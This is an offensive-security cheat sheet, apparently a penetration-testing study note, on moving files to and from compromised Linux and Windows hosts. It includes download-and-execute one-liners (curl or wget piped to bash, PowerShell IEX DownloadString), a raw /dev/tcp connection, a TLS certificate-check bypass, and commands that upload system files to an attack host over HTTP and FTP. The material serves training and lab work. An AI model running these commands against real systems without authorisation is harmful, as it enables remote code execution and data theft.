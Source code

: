 # File Transfers
## References and Links
[Harmj0y Powershell download cradles](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

## Linux File Transfers
### Base64 Encode/Decode
```bash
#Base64 Encode
cat <file> |base64 -w 0;echo
#Base64 Decode
echo -n '<encoded data>' | base64 -d > <filename>
```
### Web Downloads
wget
```bash
wget https://<URL> -O <filename>
```
curl
```bash
curl -o <filename> <URL>
```
### Fileless Attacks
Can pipe directly to most interpreters, like ```bash``` or ```python```
Curl
```bash
curl -o <filename> <URL> | bash
```
wget
```bash
wget -qO- <URL> | bash
```
### Download with Bash (/dev/tcp)
Connect to the target
```bash
exec 3<>/dev/tcp/<IP>/<port>
```
Craft a GET request
```bash
echo -e "Get /<filename> HTTP/1.1\n\n">&3
```
Print the response
```bash
cat <&3
```
### SSH Downloads
Enable the ssh server
```bash
sudo systemctl enable ssh
```
Start the ssh server
```bash
sudo systemctl start ssh
```
Check for SSH Listener
```bash
netstat -lnpt
```
Download via SCP
```bash
scp plaintext@<IP>:/<path>/<filename> .
```
## Windows File Transfers
### PowerShell Base64 Encode/Decode
```powershell
#Base64 Encode
[Convert]::ToBase64String((Get-Content -path "File_to_Encode" -Encoding byte))
#Base64 Decode
[IO.File]::WriteAllBytes("Output_File", [Convert]::FromBase64String("Base64_Encoded_Payload"))
```
### PowerShell Web Downloads
1. Files vs. Fileless  
a. Files = Download and save the file  
b. Fileless = Download and execute without saving the file 
```powershell
# File Download Example
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')

# Fileless Download Example
IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')
# We can also pipe the input directly into IEX
(New-Object Net.WebClient).DownloadString('<Target File URL>') | IEX
``` 
Powershell v3.0 and later can use Invoke-WebRequest(by default is aliased to ```iwr```,```curl```, and ```wget```)
```powershell
Invoke-WebRequest <Target File URL> -OutFile <Output_File_Name>
```
<ins>**Common Errors with Powershell**</ins>  
Internet Explorer first-launch configuration not being completed will prevent downloads. To bypass, use ```-UseBasicParsing```
```Powershell
Invoke-WebRequest <Target file URL> -UseBasicParsing | IEX
```
SSL/TLS secure channel throws an error if the certificate is not trusted.  
Bypass:
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
### SMB Downloads
Create a quick SMB server in Linux
```bash
# Simple Share
sudo impacket-smbserver share -smb2support /tmp/smbshare

# Share with Authenticated Access
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

CMD Copy a file from an SMB Server
```cmd
copy \\10.10.10.10\share\file
# This command will be blocked in modern OS's that don't allow unauthenticated guest access
```
CMD Map File share to drive letter with authentication
```cmd
net use n: \\10.10.10.10\share /user:username password
```
### FTP Downloads
FTP Setup on linux attack host
```bash
# Install 
sudo apt install python3-pyftpdlib
# Specify the port, by default pyftpdlib uses port 2121
sudo python3 -m pyftpdlib --port 21
```

Download via FTP using Powershell
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://10.10.10.10/file.txt', '<Output_File_Name>')
```

Create a batch file to download our file (useful if we don't have an interactive shell)
```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
### PowerShell Web Uploads
PowerShell doesn't have built-in upload functionality, so we'll have to build it or download it.

Linux Upload Server
```bash
# Install
pip3 install uploadserver

# Usage
python3 -m uploadserver
```

PowerShell Script to Upload a file
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
import-module ./PSUpload.ps1
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File <File_to_upload>
```
Powershell Base64 WebUpload
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
# Convert file to base64 and enter into variable $b64
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
# Send a web request with the base64 variable in the body
# catch the string with netcat on the other end, and base64 decode the body, giving you the original file
```
### SMB Uploads
Installing WebDav Server
```bash
# apt
sudo apt install python3-wsgidav
# pip
sudo pip3 install wsgidav cheroot
```
Starting the webdav python module
```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```
Connecting to the WebDav share from Windows
```cmd
dir \\10.10.10.10\DavWWWRoot
# DavWWWRoot is not the name of a share. It's a special keyword fro the mini-redirector driver to connect to a webdav share
```
Uploading files using SMB WebDAV
```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```
### FTP Uploads
```powershell
(New-Object Net.WebClient).UploadFile('ftp://10.10.10.10/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
Create a command file for the client to upload a file (useful in limited shells)
```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
## Transferring with Code
## Misc File Transfer Methods
## Catching files over HTTP/S
